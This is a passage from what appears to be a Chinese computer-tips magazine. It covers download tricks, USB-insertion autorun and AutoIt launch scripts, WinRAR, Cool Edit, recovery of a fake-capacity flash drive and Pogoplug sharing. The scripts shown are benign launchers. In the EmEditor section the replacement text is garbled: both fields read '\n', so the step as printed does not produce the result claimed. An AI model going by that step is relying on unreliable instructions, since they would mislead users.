- 步骤4: 安装完成后，在“我的应用”选项卡中单击“MD5下载”。
- 步骤5: 复制欲下载资源的CID。
- 步骤6: 在“MD5下载工具”对话框中填入CID，点击“立即下载”按钮。
- 步骤7: 弹出“新建任务”对话框，点击“立即下载”按钮。
- 步骤8: 资源已经可以下载。
- 步骤9: 下载完成后，把文件重命名为正确的扩展名即可。

## 找到云端软件的真正下载地址

关于挑战说明：说在不安装云端的情况下下载云端的文件，即lva文件，也就是小编说的找云端的文件下载地址。不安装云端的情况下，稍微比较麻烦一点，推荐还是装个，或者用个绿色版的，毕竟你下载之后还是要安装不是？

在不安装云端的情况下，首先打开云端的官网上的软件宝库页面，即http://baoku.yunduan.cn/，例如你要下载，在搜索框内输入“有道词典”，在搜索出来的界面内选择你想下载的版本，比如这个“有道词典 v4.2.24.9168 标准版”。点击连接打开，在下载处点击鼠标右键在弹出的菜单中点击“属性”，在弹出的属性页面地址(URL)处有stp://开头的地址，全选然后右键复制。

复制地址在stp://后及/name中间的文本，即“13B51643B345871206CFB6D1E8A977F607118DC4”。在“http://www.iamwawa.cn/bigtosmall.asp”中把其中的小写字母转换到大写字母（或用其他网址或其他方式转换），即“13B51643B345871206CFB6D1E8A977F607118DC4”，最后把文本组合成如下形式的文本：“http://dl.yunduan.cn/pieceinfo/13B51643B345871206CFB6D1E8A977F607118DC4.lva”其中“http://dl.yunduan.cn/pieceinfo/”保持不变，把你转换后的文本“13B51643B345871206CFB6D1E8A977F607118DC4”加上，后面加上后缀.lva，就得到了云端文件的下载地址，把下载地址复制到迅雷或其他下载工具中即可下载。其中“http://dl.yunduan.cn/pieceinfo/”中的dl可以是d2、d3、d4、d5、d6，字符申两边的“”不用输入。

## 一键给迅雷离线空间资源续期

迅雷离线空间的文件越多，手动续期就重复又繁琐，作为编程爱好者，自己编写软件来实现需要的功能理所当然于是就有了这个迅雷离线文件续期器。

使用办法很简单：
1. 首先打开迅雷离线文件续期器，软件界面；
2. 等待软件初始化完毕以后，在上面的方框中输入迅雷的账号和密码，点登陆按钮则软件将自动填写账号和密码到网页中，然后登陆。
3. 只要账号密码正确，就会登陆离线空间成功，续期按钮也会由灰色变成黑色可点击状态，这时候只要点击续期，软件将自动为每个离线文件进行续期，等待几秒即可完成。

查看效果可自行打开浏览器查看迅雷离线空间是否每个文件都续期了。注：软件下载地址http://u.115.com/file/aqznmdur#

## 高版本迅雷照样可以列表下载

## 全部复制，但只截获部分地址

笔者不久前下载一个页面上列出全部下载地址的连续剧专辑，按照以往的正常情况，直接复制页面上的这些地址后，迅雷会自动截获所有的下载地址，提示直接加入列表下载。但这次发现迅雷自动加入列表的连续剧比页面上列出了的少了5集，如何找到这丢失的5集文件并加入到迅雷的下载列表中？

笔者马上想到了迅雷一直都有的导入下载列表功能，但后来发现高版本的迅雷中，菜单中已经找不到这个功能，最后经过摸索和尝试，还是绕道解决了这个问题，而且方法并不复杂。由于在网页资源下载时这种情况可能会普遍存在，故详述过程如下，供遇到这种情况的朋友们参考，以便在下载时少走弯路。

## 建立列表，尝试导入列表下载

在直接复制地址，发现部分网址未被截获后，笔者想到用建立列表文件，改用导入列表文件的办法来下载。于是，建立一个列表文件LSLSLS.LST，将下载页面上的所有地址拷贝过来，发现其中的03、05、06、12、16等数字紧接着下载地址没有换行，而其他各集的编号和地址均换行分布。

迅雷只能识别出列表文件中各行以网页HTTP或FTP等协议打头的地址，对于以03、05、06、12、16等数字打头的行，迅雷当然不会识别出来，因而丢失了对这5集文件的检测和获取。这就是丢失了这5集文件下载的原因所在。

知道了原因就好办了，删掉已经加入到列表中的各集的记录，只留下未下载的03、05、06、12、16等集记录，然后将下载地址前的编号03、05、06、12、16统统删除，最后保存列表文件LSLSLS.LST。

## 导入列表，找到行之有效办法

按照以前使用迅雷的习惯，笔者到迅雷的系统菜单中寻找导入列表下载选项，结果没有找到，难道新版迅雷不能支持列表文件下载了吗？刚刚编辑好的下载列表该如何导入迅雷下载？

忽然，灵机一动，笔者想到是不是可以将列表文件直接拖动到迅雷的下载浮动窗口上下载，于是，将编辑好的LSLSLS.LST列表文件拖动到桌面的迅雷下载浮动图标上，这时，迅雷马上截获了这5个文件的地址并给出下载提示窗口，看来，迅雷虽然没有在菜单中给出导入下载列表的功能，但它还是没有放弃对列表下载的支持，至此，问题得到解决。

## 编辑提示

从上面的例子中看到，直接复制页面地址用迅雷下载，很可能会遇到丢失其中部分下载链接的情况，为了避免上面这种麻烦的发生，遇到页面上直接列出所有下载地址的列表时，最好先不要直接启用迅雷的截获地址功能复制下载，而是改用复制所有列表并存为列表文件的方式，保存列表之后，对地址信息稍加编辑处理，去掉下载地址前面的无效信息，让下载地址位于每行的顶头，然后保存修改后的下载列表，并将下载列表文件拖动到迅雷浮动图标上下载即可。

## U盘触发器 让软件自动运行

小咪最近一直在公用电脑上使用U盘来写作，每次插上U盘后还得去开启Word文档；小李常用U盘听歌，每次插上U盘后都需要手工开启播放器……他们的共同之处是必须手动启动相应的软件，然后才能写作、听歌。

如果能把U盘变成一个触发器，每次一插上便能自动启动所需要的软件，那么每天开始任务时就省事多了。为此，下面为大家介绍三种U盘触发器的设计。

### 一、用 autorun.inf 启动软件

最简单的方法是利用常见的autorun.inf文件搞定。大家知道，当U盘中存在这个文件时，当U盘连接到电脑时，它就会自动运行，我们只需对这个文件做做手脚，让它启动的对象指向我们需要的软件就可以了。

下面是一个简单的autorun.inf文件的内容：

```
[autorun]
icon=mypic.ico
open=C:\Program Files\Microsoft Office\OFFICE11\WINWORD.EXE
action=单击“确定”按钮启动程序！
```

其中icon指定U盘的图标，open指定启动的程序，action则是当插入U盘后，在弹出窗口中的提示。

本文件的作用是启动Word程序。创建方法是这样的：在U盘根目录下新建一个记事本文档，输入以上内容，然后另存为autorun.inf文件。随后把U盘连接到电脑，在弹出的对话框中会看到“action=”后面的提示，单击“确定”按钮后，Word便会启动。大家如果把“open=”右侧，换成自己要启动的可执行文件，就可以启动其他软件，本例中的路径可以省略（图1）。



### 二、绕过封锁，用脚本启动软件

由于autorun.inf文件自身存在很大的危险，现在的系统对它防范很严，致使它的适应范围越来越窄，比如在Win7中便无法使用上述方法启动软件。想要打造一个适应面广、有实用价值的触发器，必须另谋它法。

#### 1. 修改脚本

下面是一段AutoIt脚本，它的作用是自动检测电脑中设备的变化，一旦发现U盘存在，便会弹出提示框，提示内容为“My Drive has been Inserted, Backup My Files!”。我们不妨略加修改，为我所用。

```
$DBT_DEVICEARRIVAL = "0x00008000"
$WM_DEVICECHANGE = 0x0219
GUICreate(" ")
GUIRegisterMsg($WM_DEVICECHANGE, "MyFunc")
Func MyFunc($hWndGUI, $MsgID, $WParam, $LParam)
	If $WParam == $DBT_DEVICEARRIVAL Then
		MsgBox(4096, "Info", "My Drive has been Inserted, Backup My Files!")
	EndIf
EndFunc
While 1
	$GuiMsg = GUIGetMsg()
WEnd
```

这段脚本的关键是“MsgBox(4096, "Info", "My Drive has been Inserted, Backup My Files!")”语句，假如我们把它替换为要启动的软件路径和可执行文件，比如Word，便可以达到启动Word的目的，当然还需要对这段脚本进行编译，以便它能在任何电脑上运行。

首先将脚本粘贴到记事本中，把“MsgBox(4096, "Info", "My Drive has been Inserted, Backup My Files!")”语句替换为“Run("C:\Program Files\Microsoft Office\OFFICE11\WINWORD.EXE")”，并将文件另存为au3格式（图2）。



#### 2. 编译脚本

下载并运行AutoIt（下载地址：http://www.onlinedown.net/softdown/54314_2.htm），右击系统托盘区的图标，在弹出的菜单中选择“编译一个脚本”命令，打开编译脚本界面，单击“源码文件”文字右侧的“浏览”按钮，选择新建的au3文件打开，然后在“目标文件”文字右侧的文本框里输入编译后的文件名称，比如123.exe，单击“转换”按钮，这样就会得到一个名为123.exe的可执行文件（图3）。



#### 3. 使用方法

那么我们该如何利用创建的文件，使U盘触发Word自动运行呢？很简单，首先在电脑中运行编译后的脚本123.exe，这会在系统托盘区显示出图标，随后插入U盘，脚本检测到USB设备后，即会自动运行指定的Word程序，整个过程不再弹出任何提示。大家可以把软件的路径及名称进行更改，换成自己需要的软件。

### 三、同时启动多个对象

在实际应用中，需要同时启动的可能不止一个软件，也许你会启动多个软件，或是需要执行打开某个网页、文件等操作。对于这些要求，不建议创建多个脚本实现，而是建议通过脚本调用一个批处理文件完成，这样做最大的好处是，你可以轻易更改要启动的软件或网站、文件。

#### 1. 创建批处理文件

打比方说，想同时执行启动Word程序、打开一个Excel表格文件、用IE打开网易首页这三个动作，批处理文件的形式可以是这样：

```
START "" WINWORD.EXE
START "" D:\66\Book1.xls
START "" iexplore.exe http://www.163.com
```

将其保存为BAT格式的文件，比如：456.bat，然后运行测试一下。测试无误后，保存到某一位置即可，比如：E:\456.bat。

#### 2. 修改并编译脚本

接下来把上述脚本中的“MsgBox(4096, "Info", "My Drive has been Inserted, Backup My Files!")”语句替换为“Run("E:\456.bat")”，然后用AutoIt编译成EXE文件。操作完成后，运行编译后的程序，插上U盘，指定的程序、文件、网站便会自动打开。以后如果想更改启动对象，只需要打开批处理文件重新编辑即可。

## Flash特效也能重复应用

在我看来，能打包成组件的Flash特效无非两类：一类就是由一个独立的影片剪辑构成的，不需要其他的影片剪辑，因此相对封闭，比如一道划过天空的闪电；另一类可以用于任意一种影片剪辑，使其也成为一个特效，我给这个影片剪辑起名“特效的应用对象”，影片剪辑不同，特效的实际内容也是不同的，如一个发光的特效。接下来就介绍它们分别该怎样打包。（本文操作以Flash CS3为例）

第一类打包成组件极其简单，操作如下：先制作好特效，做成一个影片剪辑，再在库面板中找到特效所在的那个影片剪辑，右击选择“导出 SWC 文件”，然后保存，就会导出一个以SWC后缀名的文件，这就是打包好的组件。

但要是第二类的话，就要麻烦一些了，你可以使用现成的模板，下载并解压组件必需的资源（下载地址：http://dl.dbank.com/c0mq6l2etx#），再复制一份Effect.fla文件和Effect.as，用来创建我们的组件。先在库面板中打开“动画容器”，在里面制作特效，或者把制作好的特效粘贴进去。文章开头提到的特效的应用对象，也可以包含在内。接着，就是选中制作特效的应用对象，在属性面板中图标后的下拉框中，选择“影片剪辑”，再把“实例名称”设置为“mcContainer”（不含外侧引号），如图。



好了！基本工作完成了。接着你可以在“库”面板找到特效的影片剪辑，右击选择“转换为编译剪辑”，接着拖入场景中，这就是你制作的组件的最终效果。右击特效本身的影片剪辑，选择“导出 SWC 文件”，导出最终文件，特效就这么被打包了。

关于使用时我说明一下，你需要在工作区创建一个影片剪辑，作为特效的应用对象，把“属性”面板中的实例名称命名为“mcEffect”（不含外侧括号）。再用同样的方法，把组件命名为“myCom”，点击空白区域，再按“F9”打开“动作”面板，写上一行代码：
myCom.movieInstance = mcEffect;
再按Ctrl + Enter测试影片，就会发现特效真的成型了。

打包好的组件如何使用呢？你应该把导出的SWC文件复制到：C:\Users\Administrator\AppData\Local\Adobe\Flash CS3\zh_cn\Configuration\Components（视系统版本、Flash版本、安装位置有所不同）。在Flash CS3中的“组件”面板中的组件大部分都位于这个目录下，复制进去后，打开Flash CS3或选择“组件”面板右上角的菜单中的“重新加载组件”你就能发现它了，拖入场景直接使用吧。

## 巧用WinRAR快速整理档案

公司员工的200多份DOC文档分散在服务器的各个角落，小王如何快速提取出来？更换硬盘前，小王如何将硬盘中遍布的所有TXT打包备份？对于这些事情，小王从不发愁，因为他熟悉WinRAR。

### 一、高级选项设置，快速提取成批文件

最近，由于任务紧张，公司责成小王将一项工程的任务分解给200多名职工进行分别处理，每个人负责的任务均记录在一个名字不同的“XXX分项目XXX.DOC”文档中。当小王最后汇总材料时，才发现200多份文档分散在服务器的各个文件夹中，难道只能一个一个复制出来吗？如果这样操作的话，工作量恐怕太大了，而且可能还会产生遗漏的情况。

这时，小王想到了WinRAR压缩软件，借助该软件很快完成了资料提取任务。具体步骤如下：

- 第一步：指定搜集源文件夹。为了方便起见，首先在工作分区D盘创建了一个名为“Temp”的临时文件夹，目的是将收集起来的所有200多个文件存放在同一路径下。
- 第二步：添加到压缩包。将服务器映射盘中存放200多个文件夹的上级文件夹选中，然后从右键菜单中执行“WinRAR→添加到压缩文件”命令，此时会弹出“压缩文件名和参数”对话框（如图1）。



第三步：设置文件类型。切换到“文件”标签页，可以看到，这里有“要添加的文件”和“要排除的文件”两项设置，由于这里我们只需要将文件名中包含“分项目”字符的文件添加进来，因此在“要添加的文件”栏中键入“*分项目*.doc”；“文件路径”一项选择“不存储路径”，以便免去生成的压缩文件还具有层级目录结构处理时引起麻烦；其余的设置不用更改（如图2）。



- 第四步：返回“常规”选项，将压缩文件名改为“D:\TEMP\公司文件.rar”，按“确定”执行压缩操作，很快就可以将所有含有“分项目”的DOC文件打包提取出来，存储在先前指定的“D:\TEMP”文件夹中（如图3）。



### 二、普通方法联合，快速备份同类文件

小王准备换大硬盘了，电脑硬盘中有许多以前记录产品信息的TXT文本需要备份出来留存。但是，由于这些TXT文本分布在硬盘的许多目录中，不便于挑选。最后，小王还是借助WinRAR解决了问题，不过这次是用WinRAR的常规用法来实现的——他用系统的搜索功能结合WinRAR的常规压缩完成。

- 第一步：用系统搜索功能搜出硬盘中的所有资料。在资料盘（如F:盘）符上右键选择“搜索”命令，在弹出的搜索助理对话窗口的“全部或部分文件名”中输入“*.txt”，在高级选项中选中“搜索子文件夹”一项，然后点击“搜索”命令按钮（如图4）。
- 第二步：用WinRAR对搜索结果进行压缩处理。系统搜索结束后，在搜索结果窗口的右侧，按动Ctrl+A全选所有搜索出来的TXT文件，然后在选区上点击鼠标右键，选择命令“WinRAR→添加到压缩文件”，然后点“确定”开始压缩。

点评：

以上两个案例，第一个是把文件抽取和压缩打包工作交给WinRAR软件一次性完成，对使用WinRAR的技能有较高的要求，比我们常用的操作多了一步文件过滤的高级设置；第二个案例操作上没有多大难度，但要结合系统搜索和WinRAR普通压缩两个步骤来完成，思路很重要。两种操作均可以达到备份不同文件夹下同类文件的目的，我们可以灵活选择使用。由此，可以总结出解决电脑问题的两大思路：一是高级办法的直接使用，二是普通方法的联合使用。读者朋友们可慢慢体会和实践。

(文/张惠香)



## 360杀毒为办公族电脑免疫Office宏病毒

刚刚获得国际权威评测“四大满贯”的360杀毒近日再度更新，其尝鲜版推出“Office宏病毒免疫”功能，可以使办公族电脑更加安全的使用文档，预防Word、Excel、PPT等重要资料受病毒感染。

宏病毒是一种寄存在Office文档或模板的宏中的电脑病毒。如果有用户电脑打开一个感染宏病毒的Office文档，之后电脑再保存任何文档都会感染这类病毒，造成Word、Excel、PPT文档无法正常打印、正常编辑等破坏作用。

360杀毒尝鲜版采用针对性防护措施，可使用户电脑彻底免疫Office宏病毒，即便打开染毒文档也不会中招。此外，360杀毒还提供了AutoCAD病毒免疫、流行木马免疫等病毒免疫功能，是目前国内最适合用户电脑安全办公的杀毒产品。

除了独具多种病毒免疫功能外，360杀毒尝鲜版还进行了大幅优化提速，全盘扫描速度提升30%以上，还可进一步加快电脑开机速度。在实用工具中，新增的“进程追踪器”可以方便查找哪个进程占用带宽、CPU等系统资源，辅助用户优化系统性能和网络带宽。

根据360安全中心介绍，360杀毒尝鲜版是专为软件爱好者推出的一个版本，它会第一时间集成各种创新功能和产品改进措施，再逐步把用户特别欢迎的功能加入360杀毒正式版。因此360杀毒正式版的用户，也即将方便地使用上述新增功能。

360杀毒尝鲜版下载地址：http://sd.360.cn/indexbeta.html







# Cool Edit 轻松搞定音乐事

作为一名计算机电教老师，学校中有关电脑的大事小情时不时地落在我的头上，课间音乐要换新的，广播室找上门，联欢会需要卡拉OK伴奏，音乐老师来找我……不过，有Cool Edit Pro 2.0做我的“秘书”，一切问题都不在话下。

## 一、十分钟轻松搞定课间音乐

刚一上班，政教干事小杜就急匆匆地找到我，说要把大课间的音乐重新制作一下，出操时的运动员进行曲太长了，要缩短为3分30秒，原来播放的广播体操音乐是视频文件，体积太大，需转换成MP3格式。集体舞音乐后面要再加上几首红歌，最后再把所有这些音乐合编为一个MP3音乐文件，时间总长度是30分钟。

知道我很忙，他颇有些不好意思地问我，一节课的时间能否做完，我拍了他一下：“兄弟，没问题，10分钟后来取！”

### 1. 精确截取音频文件

先把长度为5分钟的运动员进行曲截取为3分30秒的MP3文件。

启动Cool Edit Pro 2.0软件，选择“打开已存在的音频文件”按钮，打开在“政教”目录下的“运动员进行曲5分钟.wma”文件，则出现波形效果图（图1），用鼠标左键在波形图的任何区间都可以进行选取，这里我们要从后往前截取，需要按住鼠标左键向前拖动，到3分30秒处结束（图2），就是我们看到的这个样子。然后选择“编辑”菜单中的“删除选取的区域”删除音乐的后半部分，当然，也可以直接按键盘编辑区的“Delete”键删除，这时我们看到音乐的总长度为3分30秒，达到了我们的要求。我们选择“文件”菜单中的“文件另存为”选项，选择MP3格式保存即可。30秒的运动员进行曲也如法炮制完成，相当精确，1秒都不差吧？



图1



图2

小提示：

在进行音频剪辑时，选择波形编辑方式，可以比较精确的进行音频的修剪，选择多轨编辑界面，则可以方便查看多个文件的追加。

### 2. 轻松从视频中获取音频文件

启动Cool Edit Pro 2.0软件，选择“文件”菜单中的“从视频文件中提取”命令，打开“政教”目录下的“小学广播体操二.mpg”视频文件，然后选择“文件”菜单中的“文件另存为”命令，保存为同名MP3文件即可。试听一下，看效果如何，如果声音太小，我们可以在“效果”菜单中的“波形振幅”中的“音量标准化”选项中进行处理，直到满意为止（图3，图4）。



图3



图4

小提示：

这个软件可以从MPG、RM、AVI等许多我们熟知的视频中获取声音，Cool Edit Pro 2.0以上的版本还支持从FLV格式文件中获取声音呢。

### 3. 追加文件，合成MP3

好了，下面我们可以利用Cool Edit Pro 2.0软件来合成MP3音乐。

启动软件，按功能键F12切换为多轨编辑界面，插入音频文件（图5），把3分30秒的运动员进行曲追加为第一个音乐（图6），然后用同样的方法陆续把集体舞，30秒的运动员进行曲、广播操音乐和校园歌曲等按顺序追加进去。最后单击“文件”菜单中的“混缩另存为”选项，把这个正好30分钟的大课间音乐保存为一个MP3音乐文件。



图5



图6

大功告成，全部过程只用了不到10分钟的时间。

## 二、三分钟搞定歌曲伴奏

“我和草原有个约定，相约去寻找共同的根……”音乐老师小唐哼着歌曲，迈着轻盈的步子走到我面前，“曙光兄，这个忙只有你能帮我，快点吧，我都急死了！”原来，她准备参加农场今天即将举行的卡拉OK比赛，比赛的曲目是《我和草原有个约定》，她想用美声唱法来演绎此歌，不过她下载的伴奏节奏有点快，调有点低，因此想让我帮助她调整一下。

### 1. 想快就快，想慢就慢

在软件中打开歌曲伴奏，在“效果”菜单中选择“变速/变调”中的“变速器”选项（图7，图8），按照图示操作，拖动滑块向左移动，则显示为“减速”，也就是伴奏的速度变慢，“比率”中显示的数值就是相对于原始音乐速度的百分比，小于100就是旋律速度变慢，大于100则旋律速度加快。反复调整和进行试听，直到速度合适为止。我给小唐减到值为96的时候，正好合乎她的要求。



图7



图8

### 2. 这就是我想要的调

在软件中打开歌曲伴奏，在“效果”菜单中选择“变速/变调”中的“变速器”选项，注意，这里要选中“变调（保持速度）”选项，然后在“变换”选项中根据自己的需要进行选择。特别提醒你注意的是，我们升调或者降调的时候不应该用“比率”参数来操作，这样不准的，除非你造诣高深，能熟记各种调的详细参数。“变换”栏下面的选项，每档间隔半度，1b就是降半度，2b降一度，1#升半度，2#升一度，以此类推。只有在升降不到半度的情况下，才要用“比率”参数去微调（图9）。最终，小唐选择把调子升高了1度，也就是选择2#选项（图10）。不到三分钟，小唐的所有要求都得到了满足。



图9



图10

“我和草原有个约定，相约去寻找共同的根……”快乐的小唐，哼着歌曲，迈着轻盈的脚步，高兴地走出了我的工作室。

(文/刘曙光)

# 大量书名号一次巧添加

美编要做图书资料宣传册，为了消除读者的误解，领导要求每本书都要加上书名号。本图书公司宣传单上的图书少说也有上千本，可是，从数据库中导出的书名宣传清单一本也没加书名号（如图1）。若靠手工还不忙上半个上午？美编琢磨半天也没找出好办法，于是来找文字编辑帮忙，问有没有省事的办法，文字编辑却说这是“小菜一碟”。



原来，文字编辑借助文字编辑软件EmEditor就解决了问题。具体添加办法如下：

1.  第一步：用EmEditor打开从数据库中导出的图书列表清单文本，全部选中要添加书名号的图书列表。
2.  第二步：按动Ctrl+H组合键，启动替换窗口；首先选中“使用正则表达式”复选框和“仅在选定范围内”复选框；然后在“查找”文本框中输入“\n”（注意不含双引号，且其中的n不能为大写），在“替换为”文本框中输入“\n”（同样不含双引号）（如图2）。
3.  第三步：点击“全部替换”按钮，你会发现，所有的图书名称都被自动加上了书名号（如图3）。



真神奇！替换框中输入的是背对背的书名号（如图2），得到的结果却是我们需要的面对面的书名号。这是为什么呢？看了下面的解释你就清楚了。

在“查找”框中，我们输入的“\n”，其含义是代表回车换行的意思，就是说我们要找到每一个书名后的回车换行。在“替换为”框中，我们输入的“\n”表示，每找到一个回车换行符号，就将它替换为一个后书名号“》”，然后接着用中间的“\n”执行换行动作，换行之后光标自然落在下一行的行首，马上在下一行首加上一个前书名号“《”。这样一来，前后书名号搭配，正好就完成了给每一本图书添加书名号的任务。于是，“背靠背”的书名号就变成了“面对面”的书名号了。



小提示：
在最开始选择所有图书列表的时候，要连同第一行之上的一个空行也选中；同时，最后一行后面的回车符也要选中。否则，在替换结束后，第一行和最后一行的书名分别会缺少半个书名号。当然，如果选了前空行和末行回车符之后，替换出来的结果中首尾各多了半个书名号，但把多余的两半个书名号删除一下就可以了，总比去补两半个书名号要省事一些。

(文/金锋)

# 闪存盘注水挤干水再用

## 一、量产验证是否为“注水”盘

下载并运行ChipGenius 3.01，检测报告芯片制造商为iCreate，型号为I5128(V1.34)-I5188(V1.5)。为了确认具体真实芯片型号，把闪存上的螺丝拧开，拆下不锈钢壳，发现芯片上印有OnFlash 5188B的字样，确认芯片型号为5188B。下载了所有关于5188的量产工具，插上闪存后一个一个地量产测试，结果量产工具均报告“ERR: No/Unsupported Flash”，不能正确识别闪存型号，无论量产还是低格均不能进行。为了确认闪存的真实容量，于是又下载了MyDiskTest 2.93。经过十几分钟的快速扩容测试后，MyDiskTest报告闪存的实际容量为2017MB，并询问是否进行扩容软修复，选择“是”后报告修复失败。

小提示：
这一步是确认你购买的闪盘是否属于被“注水”（扩容）的必要步骤，因为开始你并不知道买来的闪盘是否是注水盘，通过这一步，如果能顺利通过量产，说明你的磁盘本身不是扩容盘，你可以通过低级格式化磁盘的方法，恢复磁盘的正常读写，磁盘的购买标称容量也会十足地被利用；反之，如果检测结果像上面案例所说的那样，报告修复失败，那么，就可以确定你购买的是“注水”盘了，这时，就需要按下面的步骤来处理了。

## 二、隐藏分区只留下“实”空间

没办法，用上面的办法量产失败，软修复不成功，只能另辟蹊径了。试着往闪存复制电影，复制了3GB的电影文件竟然没有报错，用播放器打开播放测试，发现能够顺利加载，但是仅有前面大约2GB内的电影片断能正常播放，后面的电影片断均不能播放。看来闪存的实际容量确实是2GB。既然前面2GB的空间能正常使用，何不把后面的空间隐藏起来？

从计算机管理中打开磁盘管理，系统能发现可移动磁盘，但无法改变分区。下载运行了BOOTICE，只能进行主引导记录、分区引导记录的修改，虽然分区引导记录里能隐藏分区，但不能修改闪存的分区。下载运行FlashDiskManager，报告只支持可启动闪存，根本不能发现这个闪存。下载运行Format也样不能修改分区。

最后下载运行了DiskGenius3.4 for Windows，这款软件有修改闪存分区的功能。在Windows下删除了原来的分区，重新创建了一个2GB的主分区和一个2GB的主分区，并将后面的2GB的分区隐藏，确认并保存修改后，打开我的电脑，发现闪存分区依旧，连里面的文件都还存在。再次运行DiskGenius3.0 for Windows，再次修改分区，这次不选择“退出”，而是选择“重新启动系统并运行DOS版DiskGenius软件”（如图）。系统重新启动并自动进入了DOS版的DiskGenius，在DOS版的DiskGenius里对闪存进行重新分区并隐藏后面的2GB分区操作，重启后发现闪存容量只剩下2GB，后面的2GB成功被隐藏了。

最后，反复从电脑复制电影到闪存，并打开播放，均正常。复制一些非常小的TXT文件到闪盘中，文件均能正常被打开，所有文件的使用均没有问题。至此，在不能量产的情况下，通过隐藏分区的方法将闪存实有的容量几乎全部找回，闪盘修复成功。

如果你使用的“水”盘与我的型号不同，那么在选用量产处理所用工具时，要针对你的优盘型号来下载，其他工具相同，处理的思路也相同，可以依法炮制。



(文/黄一凡)

# 不必费力上传

最近得闲外出旅游了一番，拍摄了大量的风景图片，很想将其和好友分享，不过又懒得费时费力地通过QQ和电子邮件等工具将几百兆的图片发送出去。于是突发奇想，如果能将图片文件夹绑定到一条网址链接上，那么别人只要访问该链接，不就可以直接远程浏览我机器中的图片了吗？

功夫不负有心人，我在网上找到了Pogoplug这款独特的软件，可以毫不费力地将个人电脑变成个人云，解决上述图片共享问题简直是小菜一碟。Pogoplug支持Windows、MAC、Linux等系统，以及iPhone、iPad、Android等移动应用环境。下载地址：http://www.pogoplug.com/downloads.html

## Pogoplug VS 常规共享方法

在介绍Pogoplug之前，我们来看看常规的图片共享手段。不管是通过QQ发送，或者通过Email发送图片，您都必须将图片压缩打包，之后将其发送给好友。在当前的网速条件下，无疑要花费比较长的时间。而且很多邮箱对附件的大小有限制，让您无法一次性发送大型压缩文件。现在网盘很流行，但是您必须将图片上传到网盘（例如金山快盘等），如果该网盘支持外链功能的话，通过外链将相关图片文件夹共享出来，别人通过特定的链接，就可以访问网盘中的图片。但是您也必须执行图片的上传操作，这同样会花费大量的时间。而且并不是所有的网盘都支持外链功能。将图片上传到QQ相册等网络相册中，也是解决问题的好办法，不过同样面临数据上传的问题。

有了Pogoplug，您可以在不上传任何数据的情况下，让远方的朋友简单查看或者下载本机的图片（或者其它任意类型的文件）。当您确定了需要共享的文件夹后，Pogoplug会将该共享文件夹的网址链接通过电子邮件发送给您的好友，您的好友只需访问该链接，就可以在线浏览您共享的图片。

Pogoplug实际上就是一个功能强大的在线图片浏览器，访问者既可以下载图片，也可以直接在线浏览所有的图片。个人版的Pogoplug只允许浏览图片，如果是收费版，还可以浏览视频、音乐等文件。个人版是完全免费的。当然，Pogoplug并非万能，您必须在本机上启动Pogoplug客户端软件后，才可以提供图片共享服务，一旦关闭该程序，共享服务即刻终止。这也许是Pogoplug的另一个“特色”吧，允许您控制图片共享的“开关”，这样别人在您没有授权的情况下，是无法访问共享资源的。

## 共享实战操练

初次运行时需要注册Pogoplug账户，按照向导输入Email地址和密码，选择远程管理文件夹，然后在收到的确认邮件中激活Pogoplug账户，即可自动使用该账户登录到其远程服务器上。

### 一、设置共享文件夹

第一步：在系统托盘中的Pogoplug图标的右键菜单中点击“Open Pogoplug Preferences”项，在设置窗口中的“Remote Access”面板中显示所有的远程管理文件夹。

第二步：点击窗口底部的添加按钮，选择所需的文件夹，即可将其添加到远程管理列表中。例如我选择D盘上的“旅游资料”文件夹，将其添加到远程管理列表中。

### 二、发布共享链接

第一步：在系统托盘中的Pogoplug右键菜单中点击“Web Access”项，进入Pogoplug远程管理页面。在页面顶部点击“Files”项，其中显示所有的远程管理文件夹。将鼠标移到“旅游资料”文件夹项，在其显示图标右上角点击选择框，出现绿色标记表示该文件夹已经处于选定状态（可以同时选定多个文件夹），然后点击“Share”按钮。

第二步：在弹出的共享设置面板中点击“Next”，在下一步窗口中的“To”栏中输入好友的Email地址，每输入一个Email地址，按下回车键后，在该地址前会自动出现选择框，您必须将其勾选。在每一个Email地址右侧如果点击叉号图标，可以将其删除。

第三步：点击黑色的倒三角形按钮，在弹出菜单中可以为其设置访问权限。默认为“View/Download”项，表示其只能查看或者下载该共享文件夹中的文件。如果选择“Full access”项，表示访问者对该共享文件夹拥有全部控制权限。

第四步：在“Message”栏中输入关于该共享文件夹的描述信息，点击“FINISH”按钮，Pogoplug即向预设的所有邮箱发送包含共享链接的邮件。

### 三、远程访问共享资源

第一步：当好友打开邮箱，收到Pogoplug发来的确认邮件，其中显示我预设的关于该共享文件夹的描述信息，点击“立即观看”链接，就可以打开在线共享页面，预览我共享文件夹中的所有文件。

第二步：在所选中文件的左上角点击下拉按钮，在弹出菜单中点击“预览”项，可以显示其完整内容。进入预览环境后，实际上就启动了图片在线查看器，在其中可以浏览该路径下的所有图片。点击“下载”项，可以将其下载到本地。

第三步：对于子文件来说，可以在上述菜单中点击“查看文件夹”项，可以在线打开该文件夹，浏览其内容。如果直接点击“下载”项，可以先将该文件夹在线压缩为ZIP文件，之后再执行下载操作。

## 实际应用性能测试

经过本人实际测试，在本机开启Pogoplug客户端程序，激活共享数据服务之后，当少数朋友（三五个左右）访问我发布的共享链接后，对本机的网速影响不大，本机照常可以执行网页浏览、QQ聊天、网络游戏、在线观看电影等。如果同时访问的朋友比较多，本机的网络速度就会明显降低。不过对于其它操作（例如办公、运行单机游戏等）没有什么影响。

当然，Pogoplug提供的个人云服务毕竟是新鲜事物，存在一些问题在所难免。如果您想快速简单地共享本机资源的话，试一下Pogoplug，也许会给您带来惊喜哦！

小提示：
当您希望暂停数据共享时，只需在Pogoplug设置窗口中的“Remote Access”面板中选择“Off”项即可，反之选择“On”项，可恢复数据共享服务。

(文/郭建伟)

# 邮件加密收发何需另借工具

常常看到有人发送带有保密数据的邮件，总是要去寻求一种加密工具先将数据加密，然后再发送。其实，用免费的126邮箱就可以实现加密邮件的收发。但是，如果收件的一方使用的不是126邮箱，该怎么办呢？

首先，如果你使用的是网易邮箱，不管是126的还是网易别的邮箱，如果邮箱收取到加密邮件，在登录邮箱后，可以查看到加密邮件。加密邮件在标题前面有加锁的小图标区分显示。点击邮件名，在正文上面的黄色提示区域输入密码即可解密成功。

小提示：
如果你习惯使用客户端查收网易邮箱的加密邮件，由于不同客户端支持不同，可能收取这类邮件会遇到问题，所以建议你打开浏览器，在页面中查看和收取加密的邮件。

如果使用的是非网易邮箱，如QQ邮箱、139邮箱、Gmail等收取由网易邮箱发出的邮件加密，那么你可以根据以下2种方式进行解密，下面以QQ邮箱为例。

## 方法一：将邮件转发至网易邮箱解密

